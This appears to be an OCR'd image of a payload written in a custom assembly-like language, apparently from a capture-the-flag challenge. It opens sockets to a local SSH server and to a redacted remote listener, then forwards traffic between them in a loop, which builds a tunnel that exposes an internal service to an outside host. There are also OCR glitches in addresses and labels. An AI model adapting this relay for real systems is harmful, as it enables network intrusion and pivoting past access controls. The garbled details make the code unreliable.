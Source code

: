 ```x86
bad_syscall6: 6 

sep: 0x2d2d2d0a 0x0a2d2d2d

sock_args: 2 1 6
connect_localhost_args: 3 sock_addr_local 16
connect_remote_args: 4 sock_addr_remote 16
sock_addr_local: 0xae080002 00x0100007f 0 
sock_addr_remote: 0xae080002 [REDACTED] 0 
write_output_args: 1 output 4
write_test_args: 4 binsh0 4
write_testpad_args: 1 test_pad 4
write_packet_args: 1 buf 
write_packet_size: 632
write_sep_args: 1 sep 8
write_local_args: 3 buf 
write_local_size: 512
write_remote_args: 4 buf 
write_remote_size: 512
recvfrom_local_args: 3 buf 512 0x40 0 addr_len      // Use MSG_DONTWAIT flag (0x40) so we don't block
recvfrom_remote_args: 4 buf 512 0x40 0 addr_len     

addr_len: 0 0 0 0 0
from_addr: 0 0 0 0 0 0 0 0
buf: 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0

start:
// Create two sockets, fd 3 and 4 respectively
0x133769 sys_socket sock_args output
0x133769 sys_socket sock_args output

// Connect to local SSH server and remote listener
0x133769 sys_connect connect_localhost_args output
0x133769 sys_connect connect_remote_args output

// Forwarding loop
// Local -> remote
0x133769 sys_recvfrom recvfrom_local_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall5 shit shit                 // Tracepoint
add output zero write_remote_size
add output zero write_packet_size
0x133769 sys_write write_remote_args output     // Write to remote
0x133769 sys_write write_packet_args output     // Write to screen
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall6 shit shit                 // Tracepoint

// Remote -> local
0x133769 sys_recvfrom recvfrom_remote_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall0 shit shit                 // Tracepoint
add output zero write_local_size
add output zero write_packet_size
0x133769 sys_write write_local_args output      // Write to local
0x133769 sys_write write_packet_args output     // Write to screen  
0x133769 sys_write write_sep_args output        // Write seperator
```